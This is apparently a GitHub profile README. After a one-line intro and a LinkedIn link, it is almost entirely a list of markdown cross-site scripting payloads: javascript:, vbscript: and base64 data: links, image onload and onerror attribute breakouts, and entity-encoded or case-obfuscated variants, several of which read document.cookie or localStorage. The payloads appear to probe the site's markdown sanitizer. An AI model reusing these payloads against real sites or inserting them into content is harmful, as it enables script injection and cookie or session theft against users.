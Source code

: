 ### Hi there 👋

- 🌱 I’m currently learning Flutter...

More Details, see [LinkedIn](https://www.linkedin.com/in/prachya-saechua/) 

hello [hack](javascript:javascript:alert('xss'))
```javascript
> hello <a name="n"
> href="javascript:alert('xss')">*you*</a>
```
%3Ca+href%3D%22%01java%03script%3Aconfirm%28document.domain%29%22%3EClick+to+execute%3Ca%3E%0D%0A

[Basic](javascript:alert('Basic'))
[Local Storage](javascript:alert(JSON.stringify(localStorage)))
[CaseInsensitive](JaVaScRiPt:alert('CaseInsensitive'))
[URL](javascript://www.google.com%0Aalert('URL'))
[In Quotes]('javascript:alert("InQuotes")')
![Escape SRC - onload](https://www.example.com/image.png"onload="alert('ImageOnLoad'))
![Escape SRC - onerror]("onerror="alert('ImageOnError'))
[XSS](javascript:prompt(document.cookie))
[XSS](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
[XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[XSS](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
[XSS]: (javascript:prompt(document.cookie))
[XSS](javascript:window.onerror=alert;throw%20document.cookie)
[XSS](javascript://%0d%0aprompt(1))
[XSS](javascript://%0d%0aprompt(1);com)
[XSS](javascript:window.onerror=alert;throw%20document.cookie)
[XSS](javascript://%0d%0awindow.onerror=alert;throw%20document.cookie)
[XSS](vbscript:alert(document.domain))
[XSS](javascript:this;alert(1))
[XSS](javascript:this;alert(1&#41;)
[XSS](javascript&#58this;alert(1&#41;)
[XSS](Javas&#99;ript:alert(1&#41;)
[XSS](Javas%26%2399;ript:alert(1&#41;)


<!--[XSS](javascript:alert&#65534;(0&#41;)-->

[XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[XSS](javascript:confirm(1)
[XSS](javascript://www.google.com%0Aprompt(1))

[XSS](javascript://%0d%0aconfirm(1);com)
[XSS](javascript:window.onerror=confirm;throw%201)
[XSS](�javascript:alert(document.domain&#41;)
![XSS](javascript:prompt(document.cookie))\
![XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)\
![XSS'"`onerror=prompt(document.cookie)](x)

![XSS'"`onerror=prompt(document.cookie)](javascript://%0d%0aprompt(1);com)\


![Escape SRC - onload](onload="alert('ImageOnLoad'))

[XSS](&#65534;(0&#00;)


<!--
**blackb1rd/blackb1rd** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
